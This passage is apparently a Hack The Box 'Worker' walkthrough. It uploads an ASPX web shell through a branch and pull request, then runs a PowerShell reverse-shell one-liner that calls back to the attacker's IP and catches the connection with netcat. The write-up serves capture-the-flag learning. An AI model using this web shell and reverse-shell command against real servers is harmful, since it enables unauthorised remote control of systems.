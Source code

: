 First I try a reverse shell aspx file made with msfvenom. Here are the steps to upload the file:

1. Create a new branch on any of the sub-domains(I used alpa) and name it anything (literally if you want to). Remember to link it to a work item. Just pick something from suggestions.
2. Upload the file to this branch. 
3. Create a pull request.
4. Approve the request and click on complete. 

When you browse to the shell file  like `http://alpha.worker.htb/shell.aspx` and setup a netcat listener you shouldn't get a shell. lol. I say this because I tried multiple shells and then the one which finally worked was [this one](https://github.com/xl7dev/WebShell/blob/master/Aspx/ASPX%20Shell.aspx). 

Though it is not a direct shell. It looks like this after you upload it.

<img src="/images/worker/aspxshell.png" width="1000">

After that you need to enter the command for a reverse shell.

{%highlight text%}
powershell -nop -exec bypass -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.10',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
{%endhighlight%}

What does this command mean? I have no idea. Tell me too if you find anything. All I know is I got a shell now.

{%highlight text%}
nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from worker.htb 50047 received!
whoami
iis apppool\defaultapppool
PS W:\sites\alpha.worker.htb> 
{%endhighlight%}
